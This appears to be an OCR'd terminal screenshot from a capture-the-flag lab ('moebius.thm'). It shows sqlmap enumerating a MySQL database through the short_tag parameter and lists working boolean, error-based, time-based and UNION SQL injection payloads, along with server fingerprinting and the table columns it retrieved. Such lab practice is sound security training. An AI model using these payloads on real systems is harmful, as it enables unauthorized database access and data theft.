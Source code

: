 | short_tag   | text |
+-------------+------+

[18:55:01] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:55:01] [WARNING] your sqlmap version is outdated

[*] ending @ 18:55:01 /2025-08-15/

                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag -D web -T images --columns
        ___
       __H__                                                                                                        
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . [']     | .'| . |                                                                                           
|___|_  [']_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:55:22 /2025-08-15/

[18:55:23] [INFO] resuming back-end DBMS 'mysql' 
[18:55:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:55:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.4.4
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:55:24] [INFO] fetching columns for table 'images' in database 'web'
[18:55:32] [INFO] retrieved: 'path','text'
Database: web                                                                                                      
Table: images
[1 column]
+--------+------+
| Column | Type |
+--------+------+
| path   | text |
+--------+------+
